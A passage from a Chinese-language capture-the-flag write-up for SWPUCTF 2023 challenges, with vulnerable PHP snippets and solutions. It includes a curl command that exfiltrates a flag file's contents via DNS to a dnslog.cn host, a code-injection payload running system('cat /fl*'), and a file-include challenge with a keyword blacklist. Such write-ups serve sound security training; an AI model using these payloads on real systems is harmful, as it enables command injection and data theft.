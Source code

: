 利用带外出flag

```
命令：
curl ``.域名
payload:
curl `cat /fl*`.k8cg5h.dnslog.cn
```

![image-20231023224311602](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231023224311602.png)

### [SWPUCTF 2023 秋季新生赛]If_else

```php
 <?php
    $a=false;
    $b=false;
    if(你提交的部分将会被写至这里)
    {$a=true;}
    else
    {$b=true;}
    if($a===true&&$b===true)
    eval(system(cat /flag));
?>
```

payload:

```
check=1==1) {system('cat /fl*');} /*
```

直接执行代码，用/*将后面代码进行注释

## Week3

### Include 🍐

```php
 <?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?>
```
